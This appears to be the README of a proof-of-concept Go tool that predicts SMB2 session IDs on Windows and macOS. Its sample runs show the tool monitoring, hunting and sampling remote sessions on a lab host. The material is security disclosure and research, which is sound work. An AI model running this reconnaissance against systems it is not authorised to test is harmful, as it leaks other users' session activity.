 # SMB2 Predictable Session ID Demonstration

Microsoft Windows and Apple macOS use predictable Session IDs for SMB2 sessions. This code
demonstrates how to predict these IDs and determine some information about remote sessions.

Please see this blog post for more information:

- https://www.rumble.run/2020/03/smb2-session-prediction-consequences/

On Windows the Signature field of the returned SESSION_SETUP response is signed with the
original remote session key. This seems bad, but doesn't appear to be exploitable, as the
input to this key includes a client and server challenge (among other fields), that are
not visible as a remote third-party.

On newer macOS systems (10.15) the smbd Session ID increments by 1, which leaks session activity, but Session Bind requests fail and no information about the active sessions is obtained.

On Samba-based systems, the Session IDs are not predictable.

The predictable session IDs have been in place for years and seem to be a design choice.

The session binding and signature calculation process is well-documented:
 - Handle of session binding requests: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-smb2/5ed93f06-a1d2-4837-8954-fa8b833c2654
 - Signature calculation: https://docs.microsoft.com/en-us/archive/blogs/openspecification/smb-2-and-smb-3-security-in-windows-10-the-anatomy-of-signing-and-cryptographic-keys


## Remote Session Monitoring

```
$ go run main.go 192.168.0.220 watch

2020/03/28 16:16:31 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6054627286627 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c328000002d smb.Signing:enabled smb.Status:0xc0000016]

2020/03/28 16:16:48 192.168.0.220: cycle found after 205 requests: fffffffffffffffc-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffd4-fffffffffffffff0-18-14-fffffffffc00001c-fffffffff8000014-bffffc4-4-fffffffff8000028-ffffffffd000001c-37ffffb4-1c-fffffffffc000034-ffffffffc3ffffa8-40000030-c-fffffffff8000008-7fffffc-ffffffd6cfffffd4-2930000038-ffffffffebffffd0-14000034-3ffff8c-8-4-ffffffff5c000038-a3ffffd4        

2020/03/28 16:16:48 192.168.0.220: watching for new sessions...
2020/03/28 16:16:54 192.168.0.220: SESSION 0x00002c329c000011 is EXPIRED 
2020/03/28 16:16:59 192.168.0.220: SESSION 0x00002c329c000031 is ACTIVE dialect:0x0311 sig:526ec3d5a65947888677c43fee02604f
2020/03/28 16:17:03 192.168.0.220: SESSION 0x00002c329c000049 is EXPIRED 
```

## Remote Session Hunting

```
$ go run main.go 192.168.0.220 hunt

2020/03/29 21:47:21 192.168.0.220: warning: hunt mode is unreliable and unlikely to find older sessions

2020/03/29 21:47:21 192.168.0.220: determining the session cycle for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d88af7af5 ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm 
smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3880000069 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:23 192.168.0.220: cycle found after 129 requests: ffffffffc8000014-37ffffe8-ffffffd6cfffffd8-2930000038-ffffffffebffffd0-14000034-3ffff8c-ffffffff5c000044-a3ffffc4-10-fffffffffffffff4-8-fffffffffffffff0-fffffffff800004c-7ffffcc-ffffffffcc000030-33ffffc4-10-1c-fffffffffc00001c-3ffffdc-fffffffff8000028-7ffffd4-fffffffffffffffc-1c-ffffffffffffffe0-fffffffffc000054-ffffffffc3ffffa8-34000048-bffffe8-fffffffff8000014-7fffffc
2020/03/29 21:47:23 192.168.0.220: hunting for existing sessions...
2020/03/29 21:47:25 192.168.0.220: sent 1000 requests (2c37e4000041)
```

## Remote Session ID Sampling

```
$ go run main.go 192.168.0.220 sample

2020/03/29 21:47:50 192.168.0.220: sample 100 session IDs for map[ntlmssp.DNSComputer:WIN-EM7GG1U0LV3 ntlmssp.DNSDomain:WIN-EM7GG1U0LV3 ntlmssp.NTLMRevision:15 ntlmssp.NegotiationFlags:0xe28a8215 ntlmssp.NetbiosComputer:WIN-EM7GG1U0LV3 ntlmssp.NetbiosDomain:WIN-EM7GG1U0LV3 ntlmssp.TargetName:WIN-EM7GG1U0LV3 ntlmssp.Timestamp:0x01d6063d9a0b8f3e ntlmssp.Version:10.0.14393 smb.Capabilities:0x0000002f smb.CipherAlg:aes-128-gcm smb.Dialect:0x0311 smb.GUID:6edc815a-7bea-cb41-a1dd-6079352c4fce smb.HashAlg:sha512 smb.HashSaltLen:32 smb.SessionID:0x00002c3898000061 smb.Signing:enabled smb.Status:0xc0000016]

2020/03/29 21:47:50 0x00002c3898000061
2020/03/29 21:47:50 0x00002c0f68000039
2020/03/29 21:47:50 0x00002c3898000071
2020/03/29 21:47:50 0x00002c3884000041
2020/03/29 21:47:50 0x00002c3898000075
2020/03/29 21:47:50 0x00002c389c000001
2020/03/29 21:47:50 0x00002c37f8000045
```